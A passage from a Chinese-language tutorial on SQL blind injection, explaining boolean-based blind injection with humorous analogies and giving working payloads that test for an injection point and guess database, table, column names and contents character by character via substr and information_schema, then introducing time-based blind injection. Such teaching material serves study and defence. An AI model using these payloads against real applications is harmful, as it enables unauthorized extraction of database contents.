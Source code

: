 铁盆对 SQL 回显注入的解释：

```
我问你叫什么名字，你回答你叫奥特曼。
```

而 SQL 盲注是相反的，即不直接显示搜索到的结果，而从其他方式来推断得出结果的 SQL 注入

SQL 盲注常用函数：

- if 和 case when：用于时间盲注
- substring、substr、mid 等：用于截断字符串
- ascii：使字符变成 ASCII 码
- limit offset：用于猜取内容

## 布尔盲注

即只有 TRUE 和 FALSE 两种状态，过程中需要猜测，直到正确为止

铁盆箴言：

```
我问你叫什么名字，你只会说是和不是(ture false)。
于是就，我问你叫不叫李狗蛋呀，不是。叫不叫王大花呀，不是。一直猜到是为止。
但是猜也讲究技巧，一个字一个字的猜的效率比一起猜三个字效率不知道高几倍。
```

1. 判断是否有盲注点

```sql
1' and 1=1 # 返回TRUE
1' and 1=2 # 返回FALSE，并且没有返回
```

即 SQL 语句执行成功和失败的返回界面存在某种固定的差异

2. 猜解库名、表名、列名、内容

```sql
1' and substr(database(),1,1)='a' # 猜解库名
1' and substr((select group_concat(table_name) from information_schema.tables where table_schema='DatabaseName'),1,1)='a' # 猜解表名
1' and substr((select group_concat(column_name) from information_schema.columns where table_name='TableName'),1,1)='a' # 猜解列名
1' and substr((select group_concat(SomeThing) from DatabaseName.TableName),1,1)='a' # 猜解表名
```

以上即为基本的猜解过程

## 时间盲注

即对一个命令只有一个固定的反应，如果是正确的就会等待一定的时间再反应，如果错误立即反应

铁盆箴言：

```
我问你叫什么名字，无论对错，你只会 啊 的叫一声。
于是就，是 = 让你立马啊，不是 = 让你过一会再啊，以此区分，就便成布尔型一样了。
```

